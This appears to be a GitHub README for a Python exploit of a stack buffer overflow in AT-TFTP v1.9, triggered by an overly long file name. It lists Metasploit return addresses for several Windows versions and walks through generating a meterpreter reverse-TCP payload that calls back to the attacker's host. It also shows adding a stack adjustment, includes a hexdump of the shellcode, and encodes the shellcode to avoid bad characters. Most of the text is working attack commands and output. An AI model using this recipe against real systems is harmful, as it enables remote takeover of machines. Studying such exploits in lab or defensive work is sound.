 attftp_long_filename exploit prepared by Muhammad Haidari https://github.com/Muhammd/attftp_long_filename
based on the https://www.exploit-db.com/exploits/16350/

Exploits a stack buffer overflow in AT-TFTP v1.9, by sending a request (get/write) for an overly long file name. the Return addresses Extracted from Metasploit  

TODO: adjust 
        - pick the right return address for the appropriate target

Usage: python attftp_long_filename.py <IP Address> <Port> <Your IP Address>

Return addresses according to metasploit:

          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear

 Max space for shell code = 210
 Bad characters according to metasploit: \x00
 Payload via: 

 Generate payload: msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=10.11.0.55 LPORT=443 -a x86 --platform Windows -f raw -o payload

 Prepend a stack adjust of -3500 to the payload before encoding:
 Obtain stack adjust of -3500 (0xdac as per printf '%x\n' 3500) with /usr/share/metasploit-framework/tools/nasm_shell.rb:	
       nasm > sub esp, 0xdac
	 00000000  81ECAC0D0000      sub esp,0xdac
 add opcodes to a file: perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj

 Combine stackadj & payload: cat stackadj payload > shellcode
 hexdump -C shellcode
 00000000  81 ec ac 0d 00 00 fc 6a  eb 47 e8 f9 ff ff ff 60  |.......j.G.....`|
 00000010  31 db 8b 7d 3c 8b 7c 3d  78 01 ef 8b 57 20 01 ea  |1..}<.|=x...W ..|
 00000020  8b 34 9a 01 ee 31 c0 99  ac c1 ca 0d 01 c2 84 c0  |.4...1..........|
 00000030  75 f6 43 66 39 ca 75 e3  4b 8b 4f 24 01 e9 66 8b  |u.Cf9.u.K.O$..f.|
 00000040  1c 59 8b 4f 1c 01 e9 03  2c 99 89 6c 24 1c 61 ff  |.Y.O....,..l$.a.|
 00000050  e0 31 db 64 8b 43 30 8b  40 0c 8b 70 1c ad 8b 68  |.1.d.C0.@..p...h|
 00000060  08 5e 66 53 66 68 33 32  68 77 73 32 5f 54 66 b9  |.^fSfh32hws2_Tf.|
 00000070  72 60 ff d6 95 53 53 53  53 43 53 43 53 89 e7 66  |r`...SSSSCSCS..f|
 00000080  81 ef 08 02 57 53 66 b9  e7 df ff d6 66 b9 a8 6f  |....WSf.....f..o|
 00000090  ff d6 97 68 0a 0b 00 37  66 68 01 bb 66 53 89 e3  |...h...7fh..fS..|
 000000a0  6a 10 53 57 66 b9 57 05  ff d6 50 b4 0c 50 53 57  |j.SWf.W...P..PSW|
 000000b0  53 66 b9 c0 38 ff e6                              |Sf..8..|


 Encode shellcode: cat shellcode | msfvenom -p - -b \x00 -a x86 --platform Windows -e x86/shikata_ga_nai -f python
 x86/shikata_ga_nai succeeded with size 210 (iteration=0)
